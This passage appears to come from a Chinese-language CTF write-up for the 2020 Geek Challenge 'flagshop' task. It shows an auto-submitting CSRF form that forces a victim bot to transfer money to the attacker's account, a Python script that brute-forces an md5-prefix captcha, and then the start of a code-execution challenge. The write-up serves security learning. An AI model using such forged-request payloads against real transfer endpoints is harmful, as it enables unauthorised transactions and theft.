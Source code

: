 **multipart/form-data**：就是我们这一次用到的一种POST提交方式了

```php
<form action="http://173.82.206.142:8005/transfer.php" method=post enctype="multipart/form-data">
	<input type="text" name="target" class="form-control form-control-line" value='e'>
    //第一个input就是提交我们的转账对象，这里就是我们自己的账户了
	<input type="text" name="money" class="form-control form-control-line" value='10000000000000000000'>
    //第一个input是转账的金额
	<input type="submit" class="btn btn-success" value="转账">
    //提交按钮，我们要保证数据包的完整，下面的也是
	<textarea rows="5" name="messages" class="form-control form-control-line"></textarea>
</form>
<script>document.forms[0].submit();</script>	//这个就是写一个js自动提交，当点到这个php页面的时候，自动进行提交
```

ok，已经完成了一半了，现在需要找到一个用户，让他去点击我们的这个页面



我们看到报告页面，这里有一个用户反馈页面，我们观察到其中一条

![2020极客大挑战-flagshop](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98-flagshop.png)

我们可以提交一个报告，这个Longlong会去点击报告里的链接，这样我们就可以挟制他给我们打钱了

但我们在提交报告时遇到了一个问题，这个验证码填什么

> md5($code)[0:5] == d93b5

写一个脚本吧：

```python
import hashlib

def md5value(s):  # md5加密函数
    md5 = hashlib.md5()  # 获取一个md5加密算法对象
    md5.update(s.encode('utf-8'))  # 指定需要加密的字符串
    return md5.hexdigest()  # 获取加密后的16进制字符串

for i in range(0, 10000000):
    if md5value(str(i))[0:5] == "d93b5":	#填入值
        print(i)
        break
```

ok，我们只需要将PHP文件部署再自己的服务器上，再报告提交链接就可以了，成功买到flag



### 知X堂的php教程

#### 考点：代码执行

提示：

> 知X堂（PS:请勿对号入座）的php教程开课啦！ん？好像不太对劲？
>
> 注意查看当前目录和文件名
